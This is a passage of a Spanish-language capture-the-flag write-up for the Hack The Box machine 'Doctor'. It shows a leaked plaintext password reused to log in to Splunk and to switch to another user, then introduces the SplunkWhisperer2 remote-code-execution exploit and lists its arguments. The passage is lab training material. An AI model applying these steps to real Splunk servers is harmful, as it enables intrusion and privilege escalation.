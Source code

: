 ```
/home/shaun/splunk_whisperer.py:SPLUNK_PASSWORD = "Guitar123"
```

Probemos con el puerto `8089` (donde esta el servicio `Splunk`) las credenciales: `shaun:Guitar123`.

![278pagesplunk_servicesin_shaun](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/doctor/278pagesplunk_servicesin_shaun.png)

Perfecto, estamos dentro... 

(Casi me pasa lo mismo que con la máquina `Cache`, en la que encuentro una contraseña de otro servicio y no lo pruebo como contraseña de sistema y me pongo a enumerar y enumerar, después de tener todo ante mí :P):

```bash
web@doctor:~$ su shaun
su shaun
Password: Guitar123

shaun@doctor:/home/web$ whoami
whoami
shaun
shaun@doctor:/home/web$ id
id
uid=1002(shaun) gid=1002(shaun) groups=1002(shaun)
shaun@doctor:/home/web$ 
```

Listo, démosle candela pa convertirnos en root.

## Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Buscando en internet sobre `splunk` y sus posibles vulnerabilidades, encontramos un repositorio con un exploit interesante que crea un servidor falso en nuestra máquina, el cual hace como "ruta o comunicador" para en la mitad del proceso entrar nosotros a ejecutar comandos.

* [SplunkWhisper2](https://github.com/cnotin/SplunkWhisperer2) (versión inspirada en una que hizo [airman604](https://github.com/airman604/splunk_whisperer)).
* Lindo [articulo](https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/) y el cual usaremos como guía para ejecutar comandos remotamente.

Hay dos, el `local` y el `remoto`, usaremos el remoto, veamos que argumentos toma:

```py
...
parser.add_argument('--scheme', default="https")
parser.add_argument('--host', required=True)
parser.add_argument('--port', default=8089)
parser.add_argument('--lhost', required=True)
parser.add_argument('--lport', default=8181)
parser.add_argument('--username', default="admin")
parser.add_argument('--password', default="changeme")
parser.add_argument('--payload', default="calc.exe")
parser.add_argument('--payload-file', default="pwn.bat")
...
```

